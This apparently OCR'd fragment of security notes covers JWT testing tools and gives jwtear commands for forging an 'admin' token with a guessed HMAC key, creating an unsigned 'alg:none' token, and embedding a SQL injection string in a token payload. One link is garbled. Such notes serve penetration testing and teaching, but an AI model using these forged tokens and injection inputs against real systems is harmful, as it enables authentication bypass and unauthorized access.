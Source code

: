 ![](./assets/2.png)



An interesting resource that consolidates a lot of JWT security information [here](An interesting resource that consolidates a lot of JWT
security information is the below.)



There is a variety of tools for assessing/attacking JWT. For example jwt_tool and [jwtear](https://github.com/KINGSABRI/jwtear)

HMAC SHA256 signed token creation example:

```bash
jwtear --generate-token --header '{"typ":"JWT","alg":"HS256"}' --payload '{"login":"admin"}' --key 'cr@zyp@ss'
```



Empty signature token creating example:

```bash
jwtear --generate-token --header '{"typ":"JWT","alg":"none"}' --payload '{"login":"admin"}' 
```



Testing for injection example:

```bash
jwtear --generate-token --header '{"typ":"JWT","alg":"none"}' --payload $'{"login":"admin\' or \'a\'=\'a"}' 
```

`$` is used to escape single quotes.
